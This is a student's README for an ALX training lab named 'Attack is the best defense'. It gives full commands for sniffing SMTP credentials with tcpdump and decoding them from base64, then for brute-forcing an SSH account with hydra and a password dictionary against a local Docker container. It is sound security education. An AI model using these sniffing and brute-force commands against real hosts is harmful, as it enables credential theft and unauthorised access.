


# ALX SE PROGRAM

#### Project : Attack is the best defense ``DevOps - Scripting - Hacking``

#### Resources:
  **man or help:**
```
	tcpdump
	hydra
	telnet
	docker
```

##### Task 0:
Executing the script ``user_authenticating_into_server`` locally on your machine and, using ``tcpdump``, sniff the network to find the password.
You can download the script ``user_authenticating_into_server`` [here](./user_authenticating_into_server).

**HOW TO DO**
- Using tcpdump command with superuser privileges, we start capturing network packets on port 587 and save them to the "packets_587.pcap" file.
``sudo tcpdump port 587 -w packets_587.pcap``
- Use a combination of strings and sed commands to extract text data from the packets capture file
``strings tcp_dump.pcap | sed -n '/auth login/,$p'``


- The output is encoded in base64, when decoded it translates to:
```
	VXNlcm5hbWU6         => Username:
	bXlsb2dpbg==         => mylogon
	UGFzc3dvcmQ6         => Password:
	bXlwYXNzd29yZDk4OTgh => mypassword9989!
```

#### Taksk 1:
Password-based authentication systems can be easily broken by using a dictionary attack (you’ll have to find your own password dictionary). Let’s try it on an SSH account.
**HOW TO DO**
- Install Docker
- Pull and run the Docker image sylvainkalache/264-1:
``	docker run -p 2222:22 -d -ti sylvainkalache/264-1``
```
- List and display information about running containers on a Docker host:
	docker ps
	CONTAINER ID
	a2312049fc25
```
- To run a command inside a running Docker container:
``	docker exec -i a2312049fc25 hostname``
- Install hydra on the Docker container:
```
	sudo apt-get update
	sudo apt-get install -y hydra
```
- Find a password dictionary (you might need multiple of them), this one is worked for me:
> https://github.com/duyet/bruteforce-database/blob/master/7-more-passwords.txt
- Hint: the password is 11 characters long, thus we can use sed command to remove lines from a file that do not contain exactly 11 characters:
``	sed -i '/^.\{11\}$/!d' 2151220-passwords.txt > passwords``
- use hydra to try to brute force the account sylvain via SSH on the Docker container, accessing the SSH account via IP 127.0.0.1 and port 2222:
``	hydra -l sylvain -P passwords -I ssh://127.0.0.1:2222``



#### AUTHOR
> Ahmed RIFKI
